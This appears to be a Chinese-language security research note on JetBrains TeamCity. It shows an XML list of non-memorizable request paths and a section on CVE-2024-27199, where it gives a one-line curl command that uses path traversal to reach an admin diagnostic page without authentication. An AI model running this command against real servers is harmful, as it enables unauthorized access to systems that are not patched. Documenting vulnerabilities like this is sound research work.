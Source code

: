 ```xml
	<property name="nonMemorizablePaths">
	  <list>
		<value>/ajax.html</value>
		<value>/app/subscriptions/**</value>
		<value>/app/rest/**</value>
		<value>/action.html</value>
		<value>/subscriptions.html</value>
		<value>/changesPopup.html</value>
		<value>/changesPopupTab.html</value>
		<value>/filesPopup.html</value>
		<value>/externalStatus.html</value>
		<value>/visibleProjects.html</value>
		<value>/visibleBuildTypes.html</value>
		<value>/showCompatibleAgents.html</value>
		<value>/admin/action.html</value>
		<value>/buildGraph.html</value>
		<value>/showAgreement.html</value>
		<value>/queuedBuilds.html</value>
		<value>/viewDependentArtifactsPopup.html</value>
		<value>/runBuild.html</value>
		<value>/promotionGraph.html</value>
		<value>/promoDetailsPopup.html</value>
		<value>/tz.html</value>
		<value>/authenticationTest.html</value>
		<value>/win32/**</value>
		<value>/js/ring/**</value>
		<value>/2fa.html</value>
	
		<!--The next path are here only for backwars compatibility.
		See jetbrains.buildServer.controllers.obsolete.EventTrackerController-->
		<value>/eventTracker.html</value>
		<value>/serverStatistics.html</value>
	  </list>
	</property>
</bean>
```

## 历史漏洞

### CVE-2024-27199

> 漏洞通告 https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now

影响版本

- Teamcity < 2023.11.4

目录遍历引起的未授权访问漏洞，利用方式如下

```bash
curl -ik --path-as-is http://localhost:8112/res/../admin/diagnostic.jsp
```
